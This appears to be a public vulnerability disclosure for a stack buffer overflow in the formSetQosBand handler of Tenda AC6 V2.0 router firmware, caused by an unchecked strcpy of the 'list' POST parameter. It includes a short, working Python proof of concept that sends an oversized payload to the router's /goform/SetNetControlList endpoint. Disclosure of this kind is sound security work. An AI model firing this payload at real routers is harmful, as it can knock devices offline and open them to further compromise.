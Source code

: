 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "formSetQosBand"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/2855)

In the `formSetQosBand` function, a **stack buffer overflow** occurs. This happens when a user crafts a POST request with an unvalidated **`list`** parameter. This `list` parameter is then passed to the `setQosMiblist` function, where it's copied into the `qos_str` buffer (which has a size of `256` bytes) using `strcpy(qos_str, p);`. Since **no validation** is performed on the input `list`'s length, providing a string longer than 255 characters will lead to an overflow of `qos_str`.

![image-20250617000950271](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250617000950271.png)

![image-20250617001017897](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250617001017897.png)

poc

```python
import requests
def send_payload(url, payload):
    params={
            'list':payload}
    cookie={'password':'gfytgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x500+b'\n'
url="http://192.168.1.1/goform/SetNetControlList"
send_payload(url, payload)   
```

![image-20250617000731965](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250617000731965.png)




